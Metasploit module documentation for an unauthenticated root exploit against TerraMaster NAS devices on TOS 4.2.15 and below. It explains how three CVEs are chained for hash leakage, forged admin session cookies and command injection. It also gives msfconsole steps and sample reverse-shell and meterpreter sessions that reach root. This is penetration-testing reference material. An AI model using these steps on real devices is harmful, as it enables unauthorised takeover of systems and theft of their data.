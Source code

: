 ## Vulnerable Application

This module provides a Terramaster chained exploit that performs session crafting to achieve escalated privileges
that allows an attacker to access vulnerable code execution flaws. TOS versions `4.2.15` and below are affected.

[CVE-2021-45839](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-45839) is exploited to obtain the first administrator's
hash set up on the system as well as other information such as MAC address, by performing a POST request to the
`/module/api.php?mobile/webNasIPS` vulnerable endpoint.
This information is used to craft an unauthenticated admin session using vulnerability
[CVE-2021-45841](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-45841) where an attacker can self-sign session cookies
by knowing the target MAC address and the user password hash. Guest users (disabled by default) can be abused using a null/empty hash
and allow an unauthenticated attacker to login as guest which is used to download the `/etc/group` info to obtain the list of admin users
to be used for the session crafting.

Finally, [CVE-2021-45837](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-45837) is exploited to execute arbitrary commands as root
by sending a specifically crafted input to vulnerable endpoint `/tos/index.php?app/del`.

This module has been tested against a TerraMaster `F2-210` Model with the specifications listed below:

* TerraMaster F2-210
* CPU: `x64`
* TOS Version: `4.2.08`

## Verification Steps

1. `use exploit/linux/http/terramaster_unauth_rce_cve_2021_45837`
1. `set RHOSTS <TARGET HOSTS>`
1. `set RPORT <port>`
1. `set LHOST <attacker host ip>`
1. `set LPORT <attacker host port>`
1. `set TARGET <0-Unix command or 1-Linux Dropper>`
1. `exploit`
1. You should get a `bash` shell or `meterpreter` session depending on the `target` and `payload` settings.

## Options
No specific options.

## Scenarios

### TerraMaster F2-210 TOS 4.2.08 - Unix Command `cmd/unix/reverse_bash` session
```
msf6 exploit(linux/http/terramaster_unauth_rce_cve_2021_45837) > set target 0
target => 0
msf6 exploit(linux/http/terramaster_unauth_rce_cve_2021_45837) > exploit

[*] Started reverse TCP handler on 192.168.10.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. TOS version is 4.2.08 and CPU architecture is X64.
[*] Executing Unix Command for cmd/unix/reverse_bash
[*] Command shell session 1 opened (192.168.10.1:4444 -> 192.168.10.2:41822) at 2023-06-06 07:27:36 +0000

uname -a
Linux TerrorMaster 4.13.16 SMP Tue Jun 06 09:28:43 CET 2023 x86_64 GNU/Linux
id
uid=0(root) gid=0(root) groups=0(root)
```
### TerraMaster F2-210 TOS 4.2.08 - Linux Dropper `linux/x64/meterpreter/reverse_tcp` session
```
msf6 exploit(linux/http/terramaster_unauth_rce_cve_2021_45837) > set target 1
target => 1
msf6 exploit(linux/http/terramaster_unauth_rce_cve_2021_45837) > exploit

[*] Started reverse TCP handler on 192.168.10.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. TOS version is 4.2.08 and CPU architecture is X64.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Sending stage (3045348 bytes) to 127.0.0.1
[*] Meterpreter session 2 opened (192.168.10.1:4444 -> 192.168.10.2:36938) at 2023-06-06 07:29:50 +0000
[*] Command Stager progress - 100.00% done (823/823 bytes)

meterpreter > sysinfo
Computer     : 192.168.10.2
OS           :  (Linux 4.13.16)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: root
meterpreter >
```

## Limitations
No limitations.
